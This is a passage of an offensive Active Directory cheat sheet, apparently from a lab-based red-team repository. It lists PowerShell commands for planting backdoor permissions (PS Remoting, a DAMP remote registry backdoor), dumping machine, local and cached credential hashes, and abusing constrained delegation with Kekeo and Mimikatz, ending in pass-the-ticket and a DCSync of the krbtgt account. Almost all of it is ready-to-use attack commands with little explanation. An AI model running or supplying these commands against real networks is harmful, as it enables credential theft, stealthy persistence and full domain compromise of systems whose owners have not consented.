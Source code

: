 #### On a local machine
```
Set-RemotePSRemoting -Username <USERNAME> -Verbose
```

#### On a remote machine without credentials
```
Set-RemotePSRemoting -Username <USERNAME> -Computername <COMPUTERNAME> -Verbose
```

#### On a remote machine remove permissions
```
Set-RemotePSRemoting -Username <USERNAME> -Computername <COMPUTERNAME> -Remove
```

### SecurityDescriptor - Remote Registry
Using the DAMP toolkit
```
. ./Add-RemoteRegBackdoor
. ./RemoteHashRetrieval
```

#### Using DAMP with admin privs on remote machine
```
Add-RemoteRegBackdoor -Computername <COMPUTERNAME> -Trustee <USERNAME> -Verbose
```

#### Retrieve machine account hash from local machine
```
Get-RemoteMachineAccountHash -Computername <COMPUTERNAME> -Verbose
```

#### Retrieve local account hash from local machine
```
Get-RemoteLocalAccountHash -Computername <COMPUTERNAME> -Verbose
```

#### Retrieve domain cached credentials from local machine
```
Get-RemoteCachedCredential -Computername <COMPUTERNAME> -Verbose
```

### msDS-AllowedToDelegateTo
#### Set msDS-AllowedToDelegateTo
```
Set-DomainObject -Identity devuser -Set @{serviceprincipalname='dev/svc'}
Set-DomainObject -Identity devuser -Set @{"msds-allowedtodelegateto"="ldap/us-dc.us.techcorp.local"}
Set-DomainObject -SamAccountName devuser1 -Xor @{"useraccountcontrol"="16777216"}
Get-DomainUser –TrustedToAuth
```

#### Abuse msDS-AllowedToDelegateTo Kekeo
```
kekeo# tgt::ask /user:<USER> /domain:<DOMAIN> /password:Password@123!

kekeo# tgs::s4u /tgt:<KIRBI FILE> /user:Administrator@<DOMAIN> /service:ldap/<FQDN DC>

Invoke-Mimikatz -Command '"kerberos::ptt <KIRBI FILE>"'

Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt"'
```
